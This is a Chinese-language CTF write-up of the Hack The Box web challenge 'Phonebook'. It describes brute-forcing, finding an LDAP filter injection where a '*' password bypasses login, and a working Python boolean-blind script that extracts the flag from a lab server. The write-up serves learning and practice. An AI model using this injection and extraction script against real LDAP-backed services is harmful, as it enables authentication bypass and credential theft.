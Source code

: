 ```yaml
---
title: "HTB web challenge-Phonebook"
date: 2020-12-17T15:55:31+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```


## 0x00 访问首页

进去就是一个访问页面

![1.png](1.png)

看看网页源码，还出了一个好像是登录之后的页面。

![2.png](2.png)

有个搜索的输入框，试了下，但是403了。暂时好像就这么多东西。

登录框试了下sql注入也没成。

## 0x01 爆破

开始尝试爆破，用gobuster爆破目录，然后用burpsuite爆破账号密码，运气还挺好，居然爆出来密码

![3.png](3.png)

## 0x02 寻找漏洞

现在搜索可以成功使用了

![4.png](4.png)

`search`接口的body是一个json
`{"term":"1"}: `

感觉漏洞应该就在这个搜索里了，搜索传参的时候传个无效json看看，服务端报错`{"error":"unexpected EOF"}`，

原来的搜索需要的body是`{"term":""}`，看看如果term的值不是字符串会怎样。服务端报错`{"error":"json: cannot unmarshal object into Go struct field Query.term of type string"}`

从这个报错可以知道服务端是golang实现的。

## 0x03 ldap注入

fuzz一下这个term的值发现，当参数里有`)`的时候服务端会报500，参数是`*`的时候search会返回所有的结果，这让我想起来之前做过的一个有关ldap的项目，ldap filter，如果这个接口是后端拼接请求去访问ldap，那就说得通了。再加上之前爆破出来的账号密码是`username: resse password: *`,那说明登录接口应该也是ldap查询的，查询的filter可能是`(&(username=u)(password=p))`


那Flag应该就藏在ldap的某一个地方了。说巧不巧，我就随手试了一下登录的payload
```
payload = {
    "username": "reese",
    "password": "HTB*"
}
```
结果登录成功了，HTB的flag都是HTB{flag}格式的，那说明reese的密码就是flag了。那我们可以通过bool盲注的方式把密码爆出来了。脚本如下

```python
import requests
import string

url = "http://159.65.56.112:30532/login"

flag = "HTB{"

payload = {
    "username": "reese",
    "password": flag
}

# 小飞机代理
proxies = {
    "http": "http://192.168.8.110:1080"
}

while payload.get("password")[-1] != "}":
    for i in string.printable:
        if i == "*":
            continue
        data = payload.copy()
        data["password"] += i + "*"
        

        r = requests.post(url, data=data, proxies=proxies)
        if r.url.find("login") == -1:
            print("got i", i)
            flag += i
            payload["password"] = flag
            print("now payload", payload)
            break

```

最后成功爆出flag
![5.png](5.png)


## 0x04 总结

ldap注入也是第一次遇到，这次算是运气比较好，直接拿到了flag。